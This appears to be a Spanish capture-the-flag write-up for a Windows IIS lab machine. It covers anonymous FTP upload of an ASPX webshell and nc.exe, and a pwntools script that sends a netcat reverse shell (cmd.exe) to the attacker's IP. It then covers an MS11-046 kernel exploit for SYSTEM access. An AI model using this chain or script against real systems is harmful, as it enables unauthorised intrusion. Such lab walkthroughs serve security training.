Devel¶

- Anonymous
- "Enter" Logueados

No parece haber nada interesante en los archivos a priori
-

-
Encontramos un IIS 7.5
-
Gobuster y wfuzz no reportan nada interesante
- Probamos gobuster con diccionario /usr/share/seclists/Discovery/Web-Content/Web-Servers/IIS.txt No encontramos mucho
-> Cambio IP -> 10.129.58.157
- Intentaremos subir al ftp un archivo malicioso en formato ejecutable por un servidor windows, es decir un .aspx

- Buscamos en nuestro sistema por archivos que sean .aspx y que nos den un cmd para subirlo al ftp e intentar ejecutarlo desde la web, ya que está sincronizada con el directorio donde reside el ftp

Probaremos con /usr/share/davtest/backdoors/aspx_cmd.aspx Nos lo copiamos a nuestro directorio actual de trabajo
- Accedemos a ftp y subimos con put

- Abriendo el recurso desde la web obtenemos una webshell

- Si hacemos un dir, vemos que la webshell se encuentra en C:\Windows\system32\inetsrv

- Subiremos el binario netcat desde nuestra máquina al ftp para entablarnos una shell al sistema. Tendremos que encontrar el directorio absoluto en el que opera el IIS-Server para ver donde se está subiendo

- C:\inetpub\wwwroot Si listamos en la webshell el contenido de ese directorio, efectivamente vemos que es el directorio donde está la web y los archivos que hemos subido

- Subiremos netcat para entablar la revshell
- Buscamos en nuestra máquina nc.exe

-
Nos lo copiamos a nuestro directorio
-
Nos ponemos en modo binary
desde el ftp para subir el binario (xd) netcat - Lo subimos por ftp
-
Utilizaremos rlwrap para tener una consola más interactiva (aunque no nos permitirá hacer ctrl+c) Nos ponemos a la escucha ->
-
Estableceremos la revshell desde la web

iis apppool\web
-> Cambio IP ->10.129.59.185 --- OTRA FORMA -> AUTOMATIZANDO EL PROCESO
Con python3
Librerías importadas - pwn: barras de progreso, logs etc - ftplib: loggear ftp etc - request: tramitar peticiones web de cara a la webshell que hemos entablado con el archivo .aspx - re: regex para ejecutar petición por POST con el VIEWSTATE y EVENTVALIDATION que son variables - signal: hacer ctrl+c y controlar el flujo del código


- pdb: debbugear el código
- sys: definir códigos de estado a la salida
- time: para hacer sleeps
re.findall(r'id="__VIEWSTATE" value="(.*?)"', r.text)[0]
#!/usr/bin/python3
from pwn import *
from ftplib import FTP
import requests, re, signal, pdb, sys, time
def def_handler(sig, frame):
print("\n\n[!] Saliendo...\n")
sys.exit(1)
malicious_files = ["aspx_cmd.aspx", "nc.exe"]
# Ctrl+C
signal.signal(signal.SIGINT, def_handler)
# Variables globales
console_url = "http://10.129.59.229/%s" % malicious_files[0]
lport = 443
def uploadFiles():
ftp = FTP()
#ftp.set_debuglevel(2)
ftp.connect("10.129.59.229", 21)
ftp.login("anonymous", "")
for f in malicious_files:
ftp.storbinary("STOR %s" % f, open(f, "rb"))
def makeRequest():
s = requests.session()
r = s.get(console_url)
post_data = {
'__VIEWSTATE': re.findall(r'id="__VIEWSTATE" value="(.*?)"', r.text)[0],
'__EVENTVALIDATION': re.findall(r'id="__EVENTVALIDATION" value="(.*?)"', r.text)[0]
'txtArg': 'C:\inetpub\wwwroot\%s -e cmd.exe 10.10.17.61 443' % malicious_files[1],
'testing': 'excute'
}
# RCE
r = s.post(console_url, data=post_data)
if __name__ == '__main__':
uploadFiles()
try:
threading.Thread(target=makeRequest, args=()).start()
except Exception as e:
log.error(str(e))
shell = listen(lport, timeout=30).wait_for_connection()
shell.interactive()
Escalada¶
- Vemos que hay un usuario babis y Administrator en C:\Users No tenemos acceso a ninguno

Vemos que tenemos un privilegio SeImpersonatePrivilege -> Podríamos escalar con RottenPotato o JuicyPotato pero vamos a hacerlo de otra forma

Windows 7 en versión explotable
Encontramos varios puertos abiertos pero vamos a intentar explotar la versión
- Buscamos 6.1.7600 N/A Build 7600 privilege scalation Vemos que hay un MS11-046 con adf.sys -> Buscamos algún exploit en github https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046
Es un ejecutable que al correrlo nos da una consola como Administrator
- Lo descargaremos y pasaremos a la máquina víctima windows
-
Creamos un recurso smb
-
Nos movemos hacia el directorio temp desde la máquina víctima para descargar el archivo
nt authority\system
-
Buscar reecursivamente flags Estando en C:\Users
-
C:\Users\babis\Desktop
-
C:\Users\Administrator\Desktop